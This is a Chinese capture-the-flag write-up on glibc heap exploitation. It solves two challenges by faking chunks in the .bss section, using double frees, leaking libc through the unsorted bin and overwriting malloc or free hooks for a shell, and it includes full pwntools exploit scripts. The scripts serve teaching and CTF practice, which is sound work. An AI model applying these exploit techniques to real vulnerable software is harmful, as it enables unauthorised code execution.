# 堆学习之利用bss段伪造堆块-先知社区

> **来源**: https://xz.aliyun.com/news/17764  
> **文章ID**: 17764

---

昨天做了tgctf的一道堆题，感觉和pwnable.tw的tcache\_tear有点像，都是在bss段伪造chunk，但是中间要绕过很多检查，所以来总结一下

# tgctf--heap

## 标签：2.23 bss伪造chunk doublefree

## 保护：

```
$ checksec pwn
[*] '/home/gsnb/Desktop/game/tgctf/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'/home/gsnb/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64'
```

没开PIE，got表可写

## 程序：



可以发现没有show和edit，取而代之的是change your name



限制大小fastbin



最多申请16个chunk



存在uaf





name是全局变量，刚开始的时候可以往name里写，后面还可以edit name，并打印出name里的东西

## 思路

这题最大的特点是没有show，并且全局变量name的内容可操控，首先的思路是爆破io泄露libc基址，发现最少用17个chunk（实在无法精简了），超出了idx的范围；后来发现name还没有利用上，既然name在bss段，并且可改可打印，那么我们可以考虑在bss段伪造一个chunk，然后把它释放进unsortedbin里面，进而泄露libc基址

## 泄露libc

### doublefree

既然可以伪造chunk，那么怎么让系统认为，我们伪造的chunk就是chunk呢？

我们可以通过uaf 构建doublefree，然后把伪造的chunk通过doublefree申请进fastbin链里。

```
    add(0x50,'aaaa')  #0
    add(0x50,'aaaa')  #1
    add(0x50,'aaaa')  #2 
    add(0x60,'aaaa')  #3
    free(0)
    free(1)
    free(0)
    add(0x50,p64(0x6020c0)) 
```





可以看到已经成功把bss段的地址链进fastbin里了，这里还有一个需要注意的点，就是为了能够顺利的被申请出来，伪造的chunk（0x6020c0）要提前伪造好size位，大小为要链进的fastbin大小（0x60），如下



否则从fastbin里申请伪造的chunk时将会报错



### 链进unsortedbin

接下来就是把伪造的chunk申请出来，然后再放进unsortedbin里，才能泄露出来libc基址

```
    add(0x50,'aaaa')
    add(0x50,'aaaa')
    add(0x50,'a')
    edit(p64(0) + p64(0x91) + p64(0x602150) + b'a'*0x78 + p64(0) + p64(0x11) + p64(0x602170) + b'a'*0x8 +   p64(0) + p64(0x11) + b'a'*0x10)
    free(7)
    edit(b'a'*0x10)
    libc_base = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x3c4b78
    success('libc_base:' + hex(libc_base))
```



可以看到从fastbin申请出来的fake\_chunk idx是7

为了绕过unsortedbin的检查，在free掉chunk7之前，还要对fake\_chunk 的内容更改一下

1、首先要把fake\_chunk 的size大小由0x61改为0x91（符合unsortedbin的大小）

2、在0x91的fake\_chunk 后再伪造两个chunk，对应检查的源码如下

```
   /* Lightweight tests: check whether the block is already the
      top block.  */
   if (__glibc_unlikely (p == av->top))
     malloc_printerr ("double free or corruption (top)");
   /* Or whether the next chunk is beyond the boundaries of the arena.  */
   if (__builtin_expect (contiguous (av)
          && (char *) nextchunk
          >= ((char *) av->top + chunksize(av->top)), 0))
malloc_printerr ("double free or corruption (out)");
   /* Or whether the block is actually not marked used.  */
   if (__glibc_unlikely (!prev_inuse(nextchunk)))
     malloc_printerr ("double free or corruption (!prev)");

   nextsize = chunksize(nextchunk);
   if (__builtin_expect (chunksize_nomask (nextchunk) <= 2 * SIZE_SZ, 0)
|| __builtin_expect (nextsize >= av->system_mem, 0))
     malloc_printerr ("free(): invalid next size (normal)");
   /*这部分没有注释，但是一个chunk下面要么是另一个chunk要么是top chunk，所以检查一下很正常*/

   free_perturb (chunk2mem(p), size - 2 * SIZE_SZ);
```

当chunk被释放进unsortedbin时，libc会检查被释放的chunk的下一个chunk和下下个chunk的size字段，所以总的来说要伪造三个chunk，在这道题，由于name里最多能写进0xD0个字节，三个chunk的size字段分别为0x90,0x10,0x10就可以了。

注意伪造前两个chunk的fd指针

```
edit(p64(0) + p64(0x91) + p64(0x602150) + b'a'*0x78 + p64(0) + p64(0x11) + p64(0x602170) + b'a'*0x8 +   p64(0) + p64(0x11) + b'a'*0x10)
```



fake\_chunk 成功被free进unsortedbin里



如果不伪造一个三个fake\_chunk链，只有一个fake\_chunk 的话，直接free会报这样的错



free之后，再edit就可以打印出libc地址了，由于是printf输出，为了防止0x截断，我们要把fake\_chunk的fd和bk段填充成a，然后再打印

注意别忘了再改回来就行





## getshell

### doublefree

有了libc基址，接下来就是getshell了，仍然是通过doublefree，申请malloc\_hook到fastbin里，改malloc\_hook内容为one\_gadget

仍然要注意fastbin对size位的检查

```
    add(0x60,'bbbb')
    add(0x60,'bbbb')
    add(0x60,'bbbb')
    free(9)
    free(10)
    free(9)
    add(0x60,p64(malloc_hook-0x23))
    add(0x60,'aaaa')
    add(0x60,'aaaa')
    add(0x60,b'a'*0x13 + p64(one_gadget))
```

这里不能直接申请malloc\_hook，而是malloc\_hook-0x23的位置（具体位置可以动调），因为要满足size位符合对应fastbin大小





然后把malloc\_hook内容改为one\_gadget即可。

另一个注意的点就是，最后执行malloc函数的地方在add函数里输入内容之前，所以最后直接add(0x60,'aaaa')是会报错的，可以在终端手敲，也可以把add（）拆开



```
    io.sendlineafter('>','1')
    io.sendlineafter('>',str(32))
```



getshell成功！！！

### exp

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
io = process('./pwn')
#io = remote('node1.tgctf.woooo.tech',31768)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

def add(size,content):
    io.sendlineafter('>','1')
    io.sendlineafter('>',str(size))
    io.sendafter('>',content)
def edit(content):
    io.sendlineafter('>','3')
    io.sendafter('>',content)
def free(index):
    io.sendlineafter('>','2')
    io.sendlineafter('>',str(index))
def dbg():
    gdb.attach(io,"b *0x400b9a")
    pause()
def pwn():
    io.recvuntil('>')
    io.send(p64(0) + p64(0x61))
    add(0x50,'aaaa')  #0
    add(0x50,'aaaa')  #1
    add(0x50,'aaaa') #2 
    add(0x60,'aaaa') #3
    #dbg()
    free(0)
    free(1)
    free(0)
    add(0x50,p64(0x6020c0))
    #dbg()
    add(0x50,'aaaa')
    add(0x50,'aaaa')
    add(0x50,'a')
    #dbg()
    edit(p64(0) + p64(0x91) + p64(0x602150) + b'a'*0x78 + p64(0) + p64(0x11) + p64(0x602170) + b'a'*0x8 + p64(0) + p64(0x11) + b'a'*0x10)
    free(7)
    #dbg()
    
    edit(b'a'*0x10)
    libc_base = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x3c4b78
    success('libc_base:' + hex(libc_base))
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    one = [0x45226,0x4527a,0xf03a4,0xf1247]
    one_gadget = libc_base+one[3]
    print('one_gdbget-->'+hex(one_gadget))
    print('malloc_hook-->'+hex(malloc_hook))
    edit(p64(0) + p64(0x91))
    add(0x60,'bbbb')
    add(0x60,'bbbb')
    add(0x60,'bbbb')
    #dbg()
    free(9)
    free(10)
    free(9)
    add(0x60,p64(malloc_hook-0x23))
    add(0x60,'aaaa')
    add(0x60,'aaaa')
    add(0x60,b'a'*0x13 + p64(one_gadget))
    io.sendlineafter('>','1')
    io.sendlineafter('>',str(32))
    io.interactive()
if __name__=='__main__':
    pwn()
```

另一个爆破io的思路也贴一下脚本叭，就是申请了17个chunk，如果chunk可申请数量大小再增加一个的话就好了

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
io = process('./pwn1')
elf = ELF('./pwn1')
libc = ELF('./libc.so.6')

def add(size,content):
    io.sendlineafter('>','1')
    io.sendlineafter('>',str(size))
    io.sendafter('>',content)
def edit(content):
    io.sendlineafter('>','3')
    io.sendafter('>',content)
def free(index):
    io.sendlineafter('>','2')
    io.sendlineafter('>',str(index))
def dbg():
    gdb.attach(io,"b *0x400b9a")
    pause()
def pwn():
    #dbg()
    #launch_gdb()
    io.recvuntil('>')
    io.send(p64(0x6020c8))
    #edit(b'cccc')

    add(0x50,'aaaa')  #0
    add(0x50,b'a'*0x40 + p64(0) + p64(0x6f))  #1
    add(0x50,'aaaa') #2 size-->0xd1
    add(0x60,'aaaa') #3
    #dbg()
    add(0x50,'aaaa') #4
    free(0)
    free(1)
    free(0)
    add(0x50,'\xb0')
    #dbg()
    add(0x50,'aaaa')
    add(0x50,'aaaa')
    add(0x50,p64(0) + p64(0xd1)) #chunk2  fugai  chunk3
    free(2) #unsortedbin
    free(3) #fastbin
    add(0x50,b'\xdd\x25') #qiege unsortedbin
    add(0x50,b'\xdd\x25') #qiewan unsortedbin
    #dbg()
    add(0x60,b'\xdd\x25') 
    add(0x60,b'a'*0x33+p64(0xfbad1800)+p64(0)*3+b'\x00')
    libc_base = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x3c5600  
    if libc_base == -0x3c5600:
        exit(-1)

    print('libc_base-->'+hex(libc_base))
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    one = [0x45226,0x4527a,0xf03a4,0xf1247]
    one_gadget = libc_base+one[2]
    print('one_gdbget-->'+hex(one_gadget))
   #再进行一次doublefree  getshell
      …

    io.interactive()
if __name__=='__main__':
    pwn()
```

# pwnable.tw--tcache\_tear

## 标签：2.27 bss伪造chunk doublefree

## 保护 ：

```
$ checksec  pwn
[*] '/home/gsnb/Desktop/practice/刷题/pwnable/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'/home/gsnb/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64'
    FORTIFY:  Enabled
```

保护没开pie，由此可以总结，凡是没开pie的，可能就要利用到bss段

## 程序：

和上一题基本上一模一样，Info就是改name全局变量并打印其内容



## 思路：

和上一题最大的区别就是libc版本由2.23改为了2.27，正好借此来总结一下2.23和2.27对chunk检查的异同

1、本题采用的是GLIBC 2.27-3ubuntu1版本，为提升堆管理性能，舍弃了很多安全检查。比如说doublefree的时候，可以在tcachebin不间隔地free两个相同的chunk，不存在size检查和double free检查

```
tcache[0]-> chunk0 ->chunk0
```

```
tcache[0]-> chunk0 -> target_addr
```

2、但是对于unsortedbin的检查仍然存在，我们还是要连续构建三个fake\_chunk。

3、构造unsortedbin\_fake\_chunk时，size大小要设置成largebin范围的大小，因为smallbin范围的大小会优先进入tcachebin，就无法泄露libc了，这道题把0x90改成0x501就好了，size字段分别为0x501,0x21,0x21就可以了。

但是这样只靠Info的0x20的字节写入是远远不够的



解决方法是0x501在程序一开始就写入，下面两个size字段就需要通过double free申请到name+0x500处写入

后两个0x20的chunk可以在一次doublefree中写入，这样double free的size至少要0x50

## exp

这题本地打不通，远程可以，直接贴exp吧

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
io = process('./pwn')
#io = remote('node1.tgctf.woooo.tech',31768)
elf = ELF('./pwn')
libc = ELF('/home/gsnb/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6')
name_addr = 0x602060
def cmd(choice):
    io.recvuntil(b'Your choice :')
    io.sendline(str(choice).encode())

def add(size, content=b'aaaaaaaa'):
    cmd(1)
    io.recvuntil(b'Size:')
    io.sendline(str(size).encode())
    io.recvuntil(b'Data:')
    io.send(content)

def free():
    cmd(2)
    
def info():
    cmd(3)

def exit():
    cmd(4)
def dbg():
    gdb.attach(io,"b *0x400c11")
    pause()
def pwn():
    io.recvuntil(b'Name:')
    io.send(p64(0) + p64(0x501))
    add(0x50)
    dbg()
    free()
    free()
    add(0x50, p64(name_addr+0x500))
    add(0x50)
    add(0x50,p64(0) + p64(0x21) + b'a'*0x10 + p64(0) + p64(0x21) + b'a'*0x10)
    add(0x70)
    free()
    free()
    add(0x70, p64(name_addr+0x10))
    add(0x70)
    add(0x70, b'deadbeef')
    free()
    info()
    libc_address = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))-0x3ebca0
    log.success('libc_addr:'+hex(libc_address))
    add(0x90)
    free()
    free()
    add(0x90, p64(libc_address+libc.sym['__free_hook']))
    add(0x90)
    add(0x90, p64(libc_address+libc.sym['system']))
    add(0xb0, b'/bin/sh\x00')
    free()
    io.interactive()
if __name__=='__main__':
    pwn()
```
